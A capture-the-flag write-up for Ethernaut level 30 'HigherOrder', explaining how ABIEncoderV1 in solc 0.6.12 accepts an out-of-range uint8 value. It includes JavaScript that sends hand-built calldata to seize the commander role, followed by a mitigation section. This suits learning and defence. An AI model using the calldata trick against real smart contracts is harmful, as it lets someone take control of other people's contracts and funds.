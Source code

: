 [Level 30. HigherOrder](https://ethernaut.openzeppelin.com/level/30)

## In A Nutshell

> Before `solc` version `0.8.0`, `ABIEncoderV1` was used and it wouldn't revert when calldata was inconsistent with the parameter types.

## Concept

1. How to encode function call into calldata on our own.
2. Difference between `ABIEncoderV1` and `ABIEncoderV2`.

## Level Target

1. Become the `commander` of the `HigherOrder`.

## Breakdown & Analysis

1. The `solc` version used in this level is `0.6.12`, which means `ABIEncoderV1` is applied. As a result, it won't check for inconsistencies between calldata and parameter types.
2. We can use a low-level call to trigger `registerTreasury(uint8)` and pass a value larger than 255.
3. The calldata passed to `call()` will be the function selector of `registerTreasury(uint8)` and a 32-byte parameter: `0x211c85ab` + `0x0000000000000000000000000000000000000000000000000000000000000100`.

## Detailed Steps

```js
const from = <your wallet address>;
const to = contract.address;
// 211c85ab -> `registerTreasury(uint8)`'s selector
// 000...100 -> parameter 256
const calldata = "0x211c85ab0000000000000000000000000000000000000000000000000000000000000100";

await ethereum.request({
    method: "eth_sendTransaction",
    params: [{
        from: from,
        to: to,
        data: calldata
    }]
})

await contract.treasury().then(v => v.toString()) // check if treasury is set to 256
await contract.claimLeadership();
```

## Mitigation

Use solc of the version above `0.8.0`, or explicitly add the line `pragma experimental ABIEncoderV2;`.

Unlike `ABIEncoderV1`, `ABIEncoderV2` checks the consistencies between calldata and parameter types, and reverts when they don't match. Thus, it makes some function calls consume more gas.
